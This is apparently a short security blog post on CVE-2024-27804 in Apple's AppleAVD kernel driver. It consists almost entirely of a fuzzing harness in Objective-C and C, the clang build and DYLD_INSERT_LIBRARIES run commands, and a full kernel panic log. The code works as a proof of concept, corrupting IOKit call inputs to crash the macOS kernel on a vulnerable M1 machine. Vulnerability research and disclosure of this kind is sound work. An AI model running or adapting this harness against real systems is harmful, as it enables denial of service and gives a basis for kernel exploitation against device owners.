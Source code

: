 ```yaml
---
layout: post
title: "AppleAVD"
date: 2024-05-14 1:1:1 +0100
categories: fuzzing
---
```


[https://github.com/R00tkitSMM/CVE-2024-27804](https://github.com/R00tkitSMM/CVE-2024-27804)

tested on M1

{% highlight shell %}
// vtdecode.m 
#include <dlfcn.h>
#include <stdio.h>
#import <AVFoundation/AVFoundation.h>

typedef void (*t_VTApplyRestrictions)(int arg);
t_VTApplyRestrictions VTApplyRestrictions;

int __attribute__((noinline)) fuzz(const char *filename) {
  @autoreleasepool {
    NSError *error = nil;
    NSURL *fileURL = [NSURL
        fileURLWithPath:[NSString stringWithCString:filename
                                           encoding:NSASCIIStringEncoding]];
    AVAsset *asset = [AVAsset assetWithURL:fileURL];
    if (asset == nil)
      return 0;

    AVAssetReader *reader = [[AVAssetReader alloc] initWithAsset:asset
                                                           error:&error];
    if (reader == nil)
      return 0;

    NSArray *tracks = [asset tracksWithMediaType:AVMediaTypeVideo];
    if (tracks == nil || ([tracks count] == 0))
      return 0;

    AVAssetTrack *track = tracks[0];

    NSDictionary *outputSettings = [NSDictionary
        dictionaryWithObject:[NSNumber numberWithInt:kCMPixelFormat_32BGRA]
                      forKey:(id)kCVPixelBufferPixelFormatTypeKey];
    AVAssetReaderTrackOutput *output = [AVAssetReaderTrackOutput
        assetReaderTrackOutputWithTrack:track
                         outputSettings:outputSettings];

    [reader addOutput:output];
    [reader startReading];

    for (int frame = 0; frame < 2; frame++) {
      // printf("Frame %d\n", frame);

      CMSampleBufferRef sampleBuffer = [output copyNextSampleBuffer];
      if (sampleBuffer == nil)
        break;

      CMSampleBufferInvalidate(sampleBuffer);
      CFRelease(sampleBuffer);
      sampleBuffer = NULL;
    }
  }

  return 1;
}

int main(int argc, const char *argv[]) {
  if (argc < 2) {
    printf("Usage: %s <filename>\n", argv[0]);
    return 0;
  }

  // make decoding run in the current process instead of VTDecoderXPCService
  void *toolbox = dlopen("/System/Library/Frameworks/VideoToolbox.framework/"
                         "Versions/A/VideoToolbox",
                         RTLD_NOW);
  if (!toolbox) {
    printf("Error loading library\n");
    return 0;
  }
  VTApplyRestrictions =
      (t_VTApplyRestrictions)dlsym(toolbox, "VTApplyRestrictions");
  if (!VTApplyRestrictions) {
    printf("Error finding VTApplyRestrictions symbol\n");
    return 0;
  }
  VTApplyRestrictions(1);

  fuzz(argv[1]);

  return 0;
}
{% endhighlight %}

{% highlight cpp %}
// flip.c
#include <IOKit/IOKitLib.h>
#include <dlfcn.h>
#include <execinfo.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/sysctl.h>
#include <time.h>

void flip_bit(void *buf, size_t len) {

  if (!len)
    return;
  size_t offset = rand() % len;

  ((int *)buf)[offset] = 0x41414141;
}

kern_return_t fake_IOConnectCallMethod(mach_port_t connection,
                                       uint32_t selector, uint64_t *input,
                                       uint32_t inputCnt, void *inputStruct,
                                       size_t inputStructCnt, uint64_t *output,
                                       uint32_t *outputCnt, void *outputStruct,
                                       size_t *outputStructCntP) {

  flip_bit(inputStruct, inputStructCnt);

  return IOConnectCallMethod(connection, selector, input, inputCnt, inputStruct,
                             inputStructCnt, output, outputCnt, outputStruct,
                             outputStructCntP);
}

typedef struct interposer {
  void *replacement;
  void *original;
} interpose_t;

__attribute__((used)) static const interpose_t interposers[]
    __attribute__((section("__DATA,__interpose"))) = {
        {.replacement = (void *)fake_IOConnectCallMethod,
         .original = (void *)IOConnectCallMethod}};

{% endhighlight %}

{% highlight shell %}
clang -arch arm64 -o vtdecode vtdecode.m -framework VideoToolbox -framework Foundation -framework CoreMedia  -framework CoreVideo -framework  AVFoundation
clang -dynamiclib -o flip.dylib flip.c -framework IOKit
{% endhighlight %}

{% highlight shell %}
DYLD_INSERT_LIBRARIES=./flip.dylib ./vtdecode input_poc/orientation-normal-fragmented.mp4.mov
{% endhighlight %}

{% highlight shell %}

panic(cpu 4 caller 0xfffffe0026851cdc): Unaligned kernel data abort. at pc 0xfffffe0026aed514, lr 0xfffffe0026aed5d8 (saved state: 0xfffffe3a396e3200)
	  x0:  0x000000000000000e x1:  0xfffffe1002bdc01b  x2:  0x0000000000000000  x3:  0xfffffe3a396e3444
	  x4:  0xfffffe3a396e344c x5:  0x000000000002d1f4  x6:  0x0000000000000000  x7:  0xffffffffffffffff
	  x8:  0x0000000000000004 x9:  0xfffffe1002bdc01f  x10: 0x0000000000000000  x11: 0x0000000000000002
	  x12: 0x0000000000000004 x13: 0x0000000000000000  x14: 0x0000000000000000  x15: 0x0000000000000000
	  x16: 0xfffffe0026aeda90 x17: 0xfffffe0026aed9fc  x18: 0x0000000000000000  x19: 0xfffffe1b40e90000
	  x20: 0x0000000000000000 x21: 0x0000000000000000  x22: 0xfffffe1002bdc000  x23: 0x0000000000000001
	  x24: 0x0000000000000000 x25: 0xfffffe1002bdc024  x26: 0x000000000000001b  x27: 0x00000000000008b0
	  x28: 0x000000000000001b fp:  0xfffffe3a396e3610  lr:  0xfffffe0026aed5d8  sp:  0xfffffe3a396e3550
	  pc:  0xfffffe0026aed514 cpsr: 0x60401208         esr: 0x96000021          far: 0xfffffe1002bdc01b

Debugger message: panic
Memory ID: 0x6
OS release type: User
OS version: 23C71
Kernel version: Darwin Kernel Version 23.2.0: Wed Nov 15 21:53:34 PST 2023; root:xnu-10002.61.3~2/RELEASE_ARM64_T8103
Fileset Kernelcache UUID: 6DAC2CF8E68E8F436296A697E29AAD44
Kernel UUID: E245D804-1FA3-31E2-90BC-B4DF75B2129E
Boot session UUID: 52885412-0864-4DFF-8E9E-36C3C7BC8B88
iBoot version: iBoot-10151.61.4
secure boot?: YES
roots installed: 0
Paniclog version: 14
KernelCache slide: 0x000000001dac4000
KernelCache base:  0xfffffe0024ac8000
Kernel slide:      0x000000001dacc000
Kernel text base:  0xfffffe0024ad0000
Kernel text exec slide: 0x000000001efd8000
Kernel text exec base:  0xfffffe0025fdc000
mach_absolute_time: 0x1c4f4c5a5
Epoch Time:        sec       usec
  Boot    : 0x65a56518 0x000b7c0f
  Sleep   : 0x00000000 0x00000000
  Wake    : 0x00000000 0x00000000
  Calendar: 0x65a5664f 0x00072ae4

Zone info:
  Zone map: 0xfffffe100f2dc000 - 0xfffffe300f2dc000
  . VM    : 0xfffffe100f2dc000 - 0xfffffe14dbfa8000
  . RO    : 0xfffffe14dbfa8000 - 0xfffffe1675940000
  . GEN0  : 0xfffffe1675940000 - 0xfffffe1b4260c000
  . GEN1  : 0xfffffe1b4260c000 - 0xfffffe200f2d8000
  . GEN2  : 0xfffffe200f2d8000 - 0xfffffe24dbfa4000
  . GEN3  : 0xfffffe24dbfa4000 - 0xfffffe29a8c70000
  . DATA  : 0xfffffe29a8c70000 - 0xfffffe300f2dc000
  Metadata: 0xfffffe3a1c3ac000 - 0xfffffe3a243ac000
  Bitmaps : 0xfffffe3a243ac000 - 0xfffffe3a27194000
  Extra   : 0 - 0

CORE 0 recently retired instr at 0xfffffe00261886e4
CORE 1 recently retired instr at 0xfffffe00261886e4
CORE 2 recently retired instr at 0xfffffe00261886e4
CORE 3 recently retired instr at 0xfffffe00261886e4
CORE 4 recently retired instr at 0xfffffe0026186ee8
CORE 5 recently retired instr at 0xfffffe00261886e4
CORE 6 recently retired instr at 0xfffffe00261886e4
CORE 7 recently retired instr at 0xfffffe00261886e4
TPIDRx_ELy = {1: 0xfffffe1b448bd030  0: 0x0000000000001004  0ro: 0x000000010061c320 }
CORE 0 PVH locks held: None
CORE 1 PVH locks held: None
CORE 2 PVH locks held: None
CORE 3 PVH locks held: None
CORE 4 PVH locks held: None
CORE 5 PVH locks held: None
CORE 6 PVH locks held: None
CORE 7 PVH locks held: None
CORE 0: PC=0xfffffe002606ff30, LR=0xfffffe002606ff30, FP=0xfffffe3a39a13ef0
CORE 1: PC=0xfffffe002606ff30, LR=0xfffffe002606ff30, FP=0xfffffe3a392b7ef0
CORE 2: PC=0xfffffe002606ff30, LR=0xfffffe002606ff30, FP=0xfffffe3a37df7ef0
CORE 3: PC=0xfffffe002606ff30, LR=0xfffffe002606ff30, FP=0xfffffe3a37c8fef0
CORE 4 is the one that panicked. Check the full backtrace for details.
CORE 5: PC=0xfffffe002606ff34, LR=0xfffffe002606ff30, FP=0xfffffe3a39033ef0
CORE 6: PC=0xfffffe002606ff34, LR=0xfffffe002606ff30, FP=0xfffffe3a39893ef0
CORE 7: PC=0xfffffe002606ff34, LR=0xfffffe002606ff30, FP=0xfffffe3a396a7ef0
Compressor Info: 3% of compressed pages limit (OK) and 2% of segments limit (OK) with 0 swapfiles and OK swap space
Panicked task 0xfffffe1b46695e18: 14298 pages, 13 threads: pid 2352: vtdecode
Panicked thread: 0xfffffe1b448bd030, backtrace: 0xfffffe3a396e2930, tid: 184820
		  lr: 0xfffffe0026035568  fp: 0xfffffe3a396e29c0
		  lr: 0xfffffe002617fa24  fp: 0xfffffe3a396e2a30
		  lr: 0xfffffe002617de84  fp: 0xfffffe3a396e2b20
		  lr: 0xfffffe0025fe3b68  fp: 0xfffffe3a396e2b30
		  lr: 0xfffffe0026034e48  fp: 0xfffffe3a396e2ee0
		  lr: 0xfffffe002684726c  fp: 0xfffffe3a396e2f00
		  lr: 0xfffffe0026851cdc  fp: 0xfffffe3a396e3080
		  lr: 0xfffffe002617f890  fp: 0xfffffe3a396e30f0
		  lr: 0xfffffe002617e138  fp: 0xfffffe3a396e31e0
		  lr: 0xfffffe0025fe3b68  fp: 0xfffffe3a396e31f0
		  lr: 0xfffffe0026aed5d8  fp: 0xfffffe3a396e3610
		  lr: 0xfffffe0026ad6fe4  fp: 0xfffffe3a396e3720
		  lr: 0xfffffe0026ad66b4  fp: 0xfffffe3a396e3790
		  lr: 0xfffffe0026ad4e48  fp: 0xfffffe3a396e37d0
		  lr: 0xfffffe00267a0168  fp: 0xfffffe3a396e3810
		  lr: 0xfffffe00267a0484  fp: 0xfffffe3a396e39a0
		  lr: 0xfffffe002614b294  fp: 0xfffffe3a396e3ac0
		  lr: 0xfffffe002603bce8  fp: 0xfffffe3a396e3b60
		  lr: 0xfffffe002600edd4  fp: 0xfffffe3a396e3bc0
		  lr: 0xfffffe00260273f8  fp: 0xfffffe3a396e3c60
		  lr: 0xfffffe0026027864  fp: 0xfffffe3a396e3d50
		  lr: 0xfffffe0026173698  fp: 0xfffffe3a396e3e20
		  lr: 0xfffffe002617e18c  fp: 0xfffffe3a396e3f10
		  lr: 0xfffffe0025fe3b68  fp: 0xfffffe3a396e3f20
      Kernel Extensions in backtrace:
         com.apple.driver.AppleAVD(737.1)[63D957B3-2E48-36EA-880C-6F0BE3DE16A6]@0xfffffe0026a37e00->0xfffffe0026b04b43
            dependency: com.apple.driver.AppleARMPlatform(1.0.2)[9FC0A536-5BC6-33D5-911A-5A46BDDBBCEF]@0xfffffe00269dfe20->0xfffffe0026a3295b
            dependency: com.apple.driver.FairPlayIOKit(71.3.0)[AD212727-D14F-3DA2-8974-6CEA43B45BC1]@0xfffffe0027e23b50->0xfffffe0027f19aef
            dependency: com.apple.iokit.CoreAnalyticsFamily(1)[0896C7D3-89F2-3D56-A301-5CB0FE0BBEAC]@0xfffffe0027cb1f60->0xfffffe0027cb9d4b
            dependency: com.apple.iokit.IOSurface(352.0.3)[0351AFC2-D85C-3BB5-B9C6-C8C0F6C7A01D]@0xfffffe00288a7dc0->0xfffffe00288d85ab
{% endhighlight %}

